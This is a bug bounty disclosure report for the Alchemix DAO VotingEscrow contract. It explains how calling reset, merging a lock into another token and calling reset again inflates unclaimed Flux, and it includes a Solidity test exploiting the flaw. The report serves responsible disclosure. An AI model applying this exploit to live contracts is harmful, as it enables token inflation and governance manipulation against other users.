 
# User can increase their unclaimed Flux token without limits

Submitted on Sat May 04 2024 05:47:30 GMT-0400 (Atlantic Standard Time) by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30683

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- unbound minting of token

## Description
## Brief/Intro
A user can increase their unclaimed Flux token amount by the abuse of `VotedEscrow.merge()` and `Voter.reset()`. 

## Vulnerability Details
The `Voter.reset()` function calls `FluxToken.accrueFlux(_tokenId)` which increases the `unclaimed[_tokenId]` balance according the `_tokenId` voting power. The `Voter.reset()` function can be called only once per epoch due to the `onlyNewEpoch(_tokenId)` modifier preventing the user from accruing excess unclaimed Flux. This however can be abused if the voting power of a token is transferred to a new `tokenId` using `VotedEscrow.merge()`. 

After calling `VotedEscrow.merge()` the voting power shall be transfered to a new token and the `Voter.reset()` can be called again on the new `tokenId` within the same epoch.

## Impact Details
The impact is that the user can accrue potentially unlimited amount of unclaimed Flux. The unclaimed Flux could be used to execute unfair voting by increasing the user's voting power. It could also be claimed and sold on the open market to suppress the Flux price which will allow other users to unlock their veALCX tokens at lower prices hence destroying the entire voting system credibility.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L618

        
## Proof of concept
## Proof of Concept
Add to the `VotingEscrow.t.sol` the following code:

```solidity
function testAbuseResetFlux() public {
        hevm.startPrank(admin);

        uint256 tokenIdLarge = veALCX.createLock(TOKEN_100K, THREE_WEEKS, false);
        uint256 tokenIdSmall = veALCX.createLock(TOKEN_1, THREE_WEEKS, false);


        voter.reset(tokenIdLarge);
        console.log("Unclaimed Flux on tokenIdLarge: %d", flux.unclaimedFlux(tokenIdLarge));
        veALCX.merge(tokenIdLarge, tokenIdSmall);
        voter.reset(tokenIdSmall);
        // we can see that the user amassed double of the unclaimedFlux during single epoch, this pattern could be repeated with more smaller vALCX locks
        console.log("Unclaimed Flux on tokenIdSmall: %d", flux.unclaimedFlux(tokenIdSmall));

        hevm.stopPrank();
    }
```
